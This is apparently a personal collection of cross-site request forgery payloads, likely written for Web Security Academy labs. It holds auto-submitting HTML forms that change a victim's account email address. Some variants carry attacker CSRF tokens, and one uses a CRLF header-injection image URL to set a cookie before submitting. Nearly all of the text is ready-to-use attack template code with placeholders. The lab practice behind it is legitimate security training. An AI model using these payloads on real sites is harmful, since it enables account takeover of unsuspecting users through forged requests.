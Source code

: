 // csrf post request
<form method="POST" action="<APIU>/my-account/change-email">
    <input type="hidden" name="email" value="pip3lee101@gmail.com">
</form>
<script>
        document.forms[0].submit();
</script>

//with attacker csrf token
<form method="POST" action="<APIU>/my-account/change-email">
    <input type="hidden" name="email" value="pip3lee101@gmail.com">
    <input type="hidden" name="csrf" value="lkcY00JNKqN6ywfIB9j0Ki89oPjB8gBb">
</form>
<script>
        document.forms[0].submit();
</script>

//with attacker csrf token and csrfkey cookie or related cookie to csrf || httpheader vulnerablity
<form method="POST" action="<APIU>/my-account/change-email">
    <input type="hidden" name="email" value="pip3lee101@gmail.com">
    <input type="hidden" name="csrf" value="MREhwJjHDpaxKAh4wAiTebEevF08vamA">
</form>
<img src="<|vulnerable link></?link-enpoint|>%0d%0aSet-Cookie:%20<|COOKIE-VALUE|>=<|COOKIE-KEY|>%3b%20SameSite=None" onerror="document.forms[0].submit()">



// csrf get request
<form action="<APIU>/my-account/change-email">
    <input type="hidden" name="email" value="anything@web-security-academy.net">
</form>
<script>
        document.forms[0].submit();
</script>